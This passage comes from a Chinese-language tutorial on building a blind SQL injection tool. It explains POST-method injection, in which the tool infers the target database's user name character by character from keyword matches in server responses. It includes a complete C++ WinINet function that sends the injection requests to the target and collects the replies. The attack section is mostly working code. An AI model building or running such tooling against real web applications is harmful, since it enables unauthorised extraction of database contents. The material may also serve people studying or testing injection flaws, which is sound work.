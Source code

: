接下来我们把这段代码放在另外一个循环里`for(i=1,i<21,i++)`这样就可以循环遍历user每一位字符。多线程我们放到最后来讲。

0x01 POST方式注入
=============

* * *

和`get`方式不同的地方，这里`post`注入参数在`data`中，其实放在哪里都没关系，主要的是要将数据向对方`80`端口发送出去，最后我们要获取返回内容并根据`keyword`来判断条件的真假，最终确定我们想要得到的每个字符。与`GET`方式不同的是我们需要实现一个函数，来向服务器`post`请求数据，完整代码如下：

```
CString Postdata(char *url,char *data)  //传递两个参数 url 和data
{
LPTSTR AcceptTypes[2] = {TEXT("*/*"), NULL}; //接受文件的类型
CString strHeaders = _T("Content-Type: application/x-www-form-urlencoded\r\n");
charszReferer[100]  = "http://www.test.com";  
CString szFormData   = data;   //post的”参数“
HINTERNET   hSession;      
HINTERNET   hConnect;      
HINTERNET   hRequest;      
BOOL        bReturn  = FALSE;   
char *p1,*p2;
p1=strstr(url,"//"); //对url处理 获得服务器地址 以及访问目录
p1+=2;
p2=strstr(p1,"/");
char host[100];
memset(host,0,100);
strncpy(host,p1,p2-p1);
p2++;
char road[100];
memset(road,0,100);
strcpy(road,p2); // 建立HTTP请求
hSession = InternetOpen("AutoVoteVisPostMethod",
    INTERNET_OPEN_TYPE_PRECONFIG,NULL,NULL,0);  
hConnect = InternetConnect(hSession,host,
INTERNET_DEFAULT_HTTP_PORT,NULL,NULL,INTERNET_SERVICE_HTTP,0,1);       hRequest = HttpOpenRequest(hConnect,"POST",road,
    "HTTP/1.1",szReferer,(LPCSTR *)&AcceptTypes,INTERNET_FLAG_RELOAD,1); // 提交数据
LPVOID pBuf = (LPVOID)szFormData.GetBuffer(szFormData.GetLength());   
bReturn = HttpSendRequest(hRequest,
    strHeaders,-1L,pBuf,szFormData.GetLength());   
char    szRecvBuf[1024];        // 接受数据缓冲区   
DWORD   dwNumberOfBytesRead;    // 服务器返回大小   
DWORD   dwRecvTotalSize=0;      // 接受数据总大小   
DWORD   dwRecvBuffSize=0;       // 接受数据buf的大小   
CFile   m_File;                 // 将返回数据写入文件   
CString strTemp,mystr;                // 临时消息框   
memset(szRecvBuf,0,1024);   
 do  
{      
    // 开始读取数据   
    bReturn = InternetReadFile(hRequest,szRecvBuf,1024,&dwNumberOfBytesRead);           
   szRecvBuf[dwNumberOfBytesRead] = '\0';   
    dwRecvTotalSize += dwNumberOfBytesRead;   
    dwRecvBuffSize  += strlen(szRecvBuf);   
    mystr+=szRecvBuf;
  } while(dwNumberOfBytesRead !=0);   
return mystr;
}

```
